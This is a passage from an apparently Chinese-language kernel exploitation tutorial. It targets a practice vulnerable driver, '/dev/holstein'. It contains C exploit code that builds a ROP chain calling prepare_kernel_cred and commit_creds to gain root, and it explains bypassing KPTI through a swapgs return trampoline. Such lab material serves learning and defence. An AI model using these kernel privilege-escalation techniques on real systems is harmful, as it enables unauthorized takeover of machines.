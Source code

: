 ```c
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x500];
  memset(payload, 'A', ret_off);
  //   *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address
  uint64_t *rop_chain = (uint64_t *)&payload[ret_off];
  *rop_chain++ = pop_rdi_ret;
  *rop_chain++ = 0;
  *rop_chain++ = prepare_kernel_cred;
  *rop_chain++ = pop_rcx_ret;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rdi_rax_ret;
  *rop_chain++ = commit_creds;
  *rop_chain++ = swapgd;
  *rop_chain++ = iretq;
  *rop_chain++ = user_rip;
  *rop_chain++ = user_cs;
  *rop_chain++ = user_rflags;
  *rop_chain++ = user_sp;
  *rop_chain++ = user_ss;

  uint64_t data = write(global_fd, payload, sizeof(payload));

  puts("[-] if you can read this we failed the mission :(");
}

int main(int argc, char **argv) {
  open_dev();
  save_userland_state();
  overwrite_ret();
  close(global_fd);

  return 0;
}
```

## KPTI

这是为了防止18年Intel的熔断漏洞而诞生的机制，将用户态和内核态使用的页表目录隔开了，用户态下无法看到内核态的内存页（反之不然，内核态可以看到用户态）。但是在设计实现上肯定存在一段指令完成将这个页表目录进行切换的功能，可以截取这段指令作为跳板指令来进行ROP。

内核函数中`swapgs_restore_regs_and_return_to_usermode`函数中的一段汇编指令可以作为trampoline使用

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
```